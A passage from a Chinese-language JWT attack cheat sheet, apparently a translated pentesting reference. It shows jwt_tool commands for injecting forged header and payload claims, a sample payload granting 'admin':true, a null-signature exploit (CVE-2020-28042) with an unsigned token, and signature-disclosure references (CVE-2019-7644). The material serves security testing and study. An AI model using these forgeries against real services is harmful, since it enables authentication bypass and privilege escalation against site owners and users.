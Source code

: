 使用 [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool) 注入头部：`python3 jwt_tool.py JWT_HERE -I -hc header1 -hv testval1 -hc header2 -hv testval2`

### 负载

```json
{
    "sub":"1234567890",
    "name":"Amazing Haxx0r",
    "exp":"1466270722",
    "admin":true
}
```

声明是预定义的键及其值：

- iss: 发布者的标识
- exp: 过期时间戳（拒绝过期的令牌）。注意：根据规范，必须以秒为单位。
- iat: JWT 发行的时间。可用于确定 JWT 的年龄。
- nbf: “不是之前” 是指令牌将在未来某个时间变为有效。
- jti: JWT 的唯一标识符。用于防止 JWT 被重用或重放。
- sub: 令牌的主题（很少使用）
- aud: 令牌的受众（也很少使用）

使用 [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool) 注入负载声明：`python3 jwt_tool.py JWT_HERE -I -pc payload1 -pv testval3`

## JWT 签名

### JWT 签名 - 零签名攻击（CVE-2020-28042）

发送一个没有签名的 JWT，使用 HS256 算法，例如 `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.`

**漏洞利用**：

```ps1
python3 jwt_tool.py JWT_HERE -X n
```

**分解**：

```json
{"alg":"HS256","typ":"JWT"}.
{"sub":"1234567890","name":"John Doe","iat":1516239022}
```

### JWT 签名 - 正确签名的披露（CVE-2019-7644）

发送带有错误签名的 JWT，端点可能会响应错误并披露正确的签名。

- [jwt-dotnet/jwt: Critical Security Fix Required: 每次 SignatureVerificationException 都会披露正确的签名... #61](https://github.com/jwt-dotnet/jwt/issues/61)
- [CVE-2019-7644: Auth0-WCF-Service-JWT 中的安全漏洞](https://auth0.com/docs/secure/security-guidance/security-bulletins/cve-2019-7644)
